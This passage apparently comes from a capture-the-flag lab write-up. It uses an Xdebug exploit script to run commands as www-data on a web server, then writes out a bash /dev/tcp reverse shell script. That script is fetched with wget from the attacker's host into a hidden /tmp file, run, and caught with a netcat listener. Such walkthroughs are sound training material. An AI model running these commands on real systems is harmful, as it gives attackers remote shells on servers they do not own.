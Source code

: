 

I started with some scripts I found on GitHub (like
[this](https://github.com/nqxcode/xdebug-exploit)), but added in the
decode of the response.

It works nicely:



    oxdf@parrot$ python xdebug.py 
    >> id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    >> pwd
    /var/www.md
    >> ls
    info.php
    vpn



#### Shell

Really, I just need to create a reverse shell, so in theory, writing
that Python script is unnecessary. Still, getting a reverse shell was a
bit tricky. My go-to reverse shell with Bash didn't seem to work over
the Xdebug run, and `nc` isn't on the box. Eventually, I found that
`wget` was:



    >> which wget
    /usr/bin/wget



I'll write a simple reverse shell script, `rev.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/172.30.0.9/443 0>&1



With a Python webserver started, I'll get the shell, and then run it:



    >> wget 172.30.0.9/rev.sh -O /tmp/.0xdf
    >> bash /tmp/.0xdf



There's a hit at the webserver:



    172.30.0.1 - - [02/Aug/2021 20:51:35] "GET /rev.sh HTTP/1.1" 200 -



And then a reverse shell at `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 47032
    bash: cannot set terminal process group (39): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@web:/var/www.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
